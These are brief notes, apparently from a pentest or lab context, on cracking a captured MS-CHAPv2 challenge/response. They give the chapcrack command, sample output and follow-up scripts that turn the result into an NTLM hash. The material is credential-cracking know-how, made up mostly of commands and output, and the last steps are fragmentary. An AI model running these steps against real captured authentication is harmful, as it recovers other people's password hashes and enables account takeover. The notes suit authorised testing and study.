 run chapchrack with the mschap challenge and response https://github.com/moxie0/chapcrack
python2 chapcrack.py radius -C 44:80:58:11:a0:e2:09:4f -R c4:ef:da:98:b2:c1:4a:c2:f7:10:c9:4d:15:1e:9f:df:b0:31:f4:27:62:ec:31:ad

results look like this
Cracking K3........
                     C1 = c4efda98b2c14ac2
                     C2 = f710c94d151e9fdf
                     C3 = b031f42762ec31ad
                      P = 44805811a0e2094f
                     K3 = 5f910000000000
CloudCracker Submission = $99$RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=

copy the cloudcracker submission without the $99$
https://hashcat.net/forum/thread-5912.html

run chapcrack-des.sh
chapcrack-des.sh RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=

DES-ntlm.sh

des-to-ntlm.sh
